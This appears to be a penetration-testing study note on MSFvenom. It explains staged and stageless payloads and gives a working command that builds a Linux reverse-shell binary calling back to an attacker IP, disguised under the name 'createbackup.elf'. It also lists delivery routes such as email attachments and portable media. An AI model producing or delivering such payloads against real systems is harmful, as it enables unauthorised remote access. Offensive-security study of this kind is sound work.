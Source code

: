 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
MSFvenom is a tool within the [[Metasploit]] framework for creating, encrypting & encoding payloads. The delivery of these payloads is up to the attacker, this tool only aids to creates them. This is a really useful tool if we don't have direct access to the target system but we need a payload that we can deliver another way (eg. social engineering).

### Staged vs Stageless Payloads
A *staged* payload will only setup a 'small stage' that will then call back to the attack box to download the rest of the payload, and execute it. These take up space in memory so there is less space for the actual payload. These are useful when an exploit scenario has little space for a large payload to be uploaded but instead we could upload a stage that then downloads a larger payload into a more suitable place / into larger memory.

A *stageless* payload does not have a stage. The entire payload is sent over the network connection at once. This could benefit us in environments with little bandwidth or latency where a staged payload may not be stable enough. Sometimes these can be better for evasion too as they cause less network traffic, which could be helpful for a social engineering attack.

The description or the format of the name of the payload can identify if it is staged or stageless.
```bash
# Staged (indicated by the /'s ) we can see the different stages (eg. {0} create a shell, {1} then create a reverse tcp)
windows/meterpreter/reverse_tcp
linux/x86/shell/reverse_tcp

# Stageless
windows/meterpreter_reverse_tcp
linux/zarch/meterpreter_reverse_tcp
```

![[Metasploit#Installation]]

## Documentation
**Cheatsheet:** 
**Website:** 
## Usage

### List all payloads
```sh
msfvenon -l payloads
# Payloads will commonly be named with their OS first eg. windows/dllinject/bind_tcp
```

### Building a stageless payload
```bash
msfvenom -p [payload_path] [options] -f [binary_format] > [file_name].[binary_format]

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.112 LPORT=443 -f elf > createbackup.elf
```
We could then deliver this to our target system, common ways include:
- Email with file attached
- Download link on a website
- Combined with a metasploit exploit (but would likely need us to be on the internal network)
- Via portable media during an on-site attack
> We also need to make sure it gets executed once on the system.

![[Metasploit#Scanning a payload for possible detection]]